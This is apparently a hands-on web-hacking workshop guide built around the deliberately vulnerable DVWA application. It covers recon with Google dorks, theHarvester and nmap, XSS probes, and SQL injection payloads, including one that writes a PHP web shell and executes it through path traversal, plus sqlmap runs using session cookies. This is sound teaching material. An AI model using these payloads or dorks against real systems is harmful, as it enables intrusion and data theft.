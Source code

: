 # Setup

This was done on a Ubuntu 16.04 server.

## Install Docker

```
$ sudo apt-get update && apt-get install docker.io
$ sudo systemctl start docker
```

## Setup Damn Vulnerable Web Application (DVWA)

Pull the image from DockerHub:
```
$ sudo docker pull citizenstig/dvwa
```

Fire up the container:
```
$ sudo docker run -d -p 80:80 citizenstig/dvwa:latest
```

1. DVWA is now available at http://[host-ip]:80 - e.g.`localhost:80`
2. Follow the instructions to setup the MySQL database within the browser
3. Refresh and login, default username is `admin` and the default password is `password`

# Recon
## google hacking
Popular search operations
`site`, `filetype`, `inurl`, `intitle`

Find hardware with known vulnerabilities
`intitle:"SpeedStream Router Management Interface"`

Web accessible, Open Cisco Routers
`inurl:"level/15/exec/-/show"`

## TheHarvester
Install instructions: https://github.com/laramies/theHarvester

Example command for assessing google
`theharvester -d telenordigital.com -l 500 -b all > telenor-digital.txt`


## nmap
`sudo nmap 127.0.0.1 -sV -sC -O`

```
jogr@Jonnathans-MacBook-Pro: recon_enum (master)*$ sudo nmap 127.0.0.1 -sV -sC -O

Starting Nmap 7.12 ( https://nmap.org ) at 2018-02-21 16:31 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00012s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-git:
|   127.0.0.1:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/fermayo/hello-world-lamp.git
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: Damn Vulnerable Web App (DVWA) - Login
|_Requested resource was login.php
631/tcp open  ipp     CUPS 2.2
| http-methods:
|_  Potentially risky methods: PUT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Home - CUPS 2.2.5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.12%E=4%D=2/21%OT=80%CT=1%CU=32715%PV=N%DS=0%DC=L%G=Y%TM=5A8D910
OS:0%P=x86_64-apple-darwin15.4.0)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=RD%II=RI%
OS:TS=A)OPS(O1=M3FD8NW5NNT11SLL%O2=M3FD8NW5NNT11SLL%O3=M3FD8NW5NNT11%O4=M3F
OS:D8NW5NNT11SLL%O5=M3FD8NW5NNT11SLL%O6=M3FD8NNT11SLL)WIN(W1=FFFF%W2=FFFF%W
OS:3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=Y%T=40%W=FFFF%O=M3FD8NW5SLL%CC
OS:=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=N%T=40%W=0%S=
OS:Z%A=S%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0%RIPL=G%RID=G%RIPCK=Z%
OS:RUCK=0%RUD=G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.55 seconds
```

# Finding vulnerabilities

## Cross Site Scripting (XSS)

1. Go to http://[host-ip]/security.php and set security level to low.
2. Go to http://[host-ip]/vulnerabilities/xss_r/. Explore the functionality.
3. Reflect on the source code by clicking "View Source" in the bottom right.
4. Play around with some input, does the application reflect `<`, `'`, `"`?
5. Can you put actual HTML tags in there, like `<pre>`, `<a>`?
6. Attempt to use the classic `<script>alert(1)</script>` to check for XSS.
7. Show the same with the persistant/stored XSS at http://[host-ip]/vulnerabilities/xss_s/

## SQL Injection (SQLi)

1. Go to http://[host-ip]/security.php and set security level to low.
2. Go to http://[host-ip]/vulnerabilities/sqli/ and explore the functionality
3. View the source by clicking "View Source" in the bottom right.
4. Input a single quote `'` into the input field.
	Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '''"; 
5. Input `1' OR 1=1;#` into the input field. 
	Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#'"; 
6. Demonstrate that arbitrary information can be received:
	`1' union select all 1,@@version;#`
	`1' union select all 1,table_name FROM information_schema.tables;#`
7. Show that files can be written too:
	`1' union select all 1,"<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/tmp/backdoor.php'`
8. Take advantage of it with path traversal vulnerability:
	http://[host-ip]/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=id
9. Run `sqlmap -u "http://[host-ip]/vulnerabilities/sqli/?id=123&Submit=Submit#"`.
10. Fetch cookie values from CookieManager+
11. Run `sqlmap -u "http://[host-ip]/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]"`
12. Run `sqlmap -u "http://[host-ip]/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]" --tables`

# Exploitation

## BeEf Command and Control using XSS

## Reverse shell using SQLi

# Resources

## Vulnerable applications
1. Damn Vulnerable Web Application: http://www.dvwa.co.uk/
3. WebGoat: https://github.com/WebGoat/WebGoat
2. Mutillidae 2: https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project

